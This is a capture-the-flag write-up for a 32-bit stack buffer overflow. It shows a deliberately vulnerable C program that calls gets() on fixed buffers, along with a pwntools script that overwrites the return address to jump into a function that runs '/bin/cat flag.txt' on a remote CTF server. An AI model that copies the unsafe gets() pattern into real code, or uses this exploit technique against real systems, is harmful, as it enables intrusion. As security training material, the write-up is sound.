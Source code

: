 The source code is given:
```c
#include "stdio.h"
#include "string.h"
#include "stdlib.h"

// gcc -m32 -fno-stack-protector -no-pie bof.c -o bof

void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}

void get_audition_info(){
	char name[50];
	char song[50];
	printf("What's your name?\n");
	gets(name);
	printf("What song will you be singing?\n");
	gets(song);
}

void welcome(){
	printf("Welcome to East High!\n");
	printf("We're the Wildcats and getting ready for our spring musical\n");
	printf("We're now accepting signups for auditions!\n");
}

int main(){
	welcome();
	get_audition_info();
	return 0;
}
```

The two input are no bounded -> buffer overflow. 
We can rop into `audition()` function injecting the 2 parameters in the stack since is 32 bit binary

Exploit:
```python
from pwn import *

e = ELF('./bof')

payload = (('A'*112).encode())
payload += p32(e.symbols['audition'])
payload += (("B"*4).encode())
payload += p32(0x4B0)
payload += p32(0x16E)

p = remote('ctf.umbccd.io', 4000)
#p = process('./bof')
print(p.recvuntil('?\n').decode())
p.sendline("A".encode())
print(p.recvuntil('?\n').decode())
p.sendline(payload)
p.interactive()
```

# FLAG
`DawgCTF{wh@t_teAm?}`
